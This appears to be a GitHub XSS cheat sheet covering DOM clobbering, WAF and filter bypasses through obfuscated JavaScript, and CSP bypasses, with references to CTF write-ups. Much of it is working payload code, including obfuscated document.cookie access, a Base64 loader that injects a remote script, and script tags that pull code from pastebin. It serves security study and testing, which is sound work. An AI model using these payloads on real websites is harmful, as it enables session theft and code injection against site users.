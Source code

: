# XSS

## Awesome Cheat Sheets

- [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

- [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## DOM Based XSS

Useful references:
- [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
- [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
- [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element 
```html
<p id="CONFIG"></p>
```
 creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared 
 with the same name.

References:

- [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

---

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of 
 `/[a-z().]/` characters. Example:

```
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```js
window["document"]["cookie"]
```

Call `alert` from `window` example:

```js
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```js
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://vulnerable-website.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")
```

References:

- [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS.
 It uses only six different characters to write and execute code. But the payload is very long. You can reduce the 
 payload using the methods described in the article [Bypass Uppercase filters like a PRO (XSS Advanced Methods)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment)
 and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment)
 in ECMA specification. The following is valid JS comment syntax:

```js
-->valid_comment_style
```

References:

- [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
- [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
- [Challenge in Cure53 XSS wiki (the idea for the Bounty Pl33z)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

---

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers
 seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```html
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

#### Bypass using JSONP

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.
